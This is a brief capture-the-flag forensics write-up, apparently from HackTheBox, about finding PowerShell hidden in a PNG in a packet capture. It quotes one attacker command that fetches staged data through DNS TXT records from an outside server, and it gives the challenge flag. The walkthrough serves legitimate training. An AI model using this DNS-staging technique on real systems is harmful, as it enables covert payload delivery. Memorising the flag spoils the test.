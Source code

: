 ![](2022-05-19-14-06-07.png)
Vinyr's threat intelligence is monitoring closely all APT groups from every possible galaxy, especially the most dangerous one, longhir. As stated by an anonymous threat intelligence officer, the malicious actors tend to automate their initial post-exploitation enumeration so they can have less on-keyboard time. You can find such an example in the provided network capture generated by a recent incident. Analyse it and find out what they are up to.

The first thing we observe when we open the pcap file is there is a suspicious png file being transmitted. By downloading it and examining it with a hex editor, we find powershell code. By decoding the powershell we see that some of the information is downloaded by the resolve dns command:
Resolve-DnsName -type TXT -DnsOnly windowsliveupdater.com -Server 147.182.172.189|Select-Object -Property Strings;
After decoding said command and getting the information from the dns traffic we decrypt and get the flag
HTB={y0u_c4n_4utom4t3_but_y0u_c4nt_h1de}
![](2022-05-19-14-21-45.png)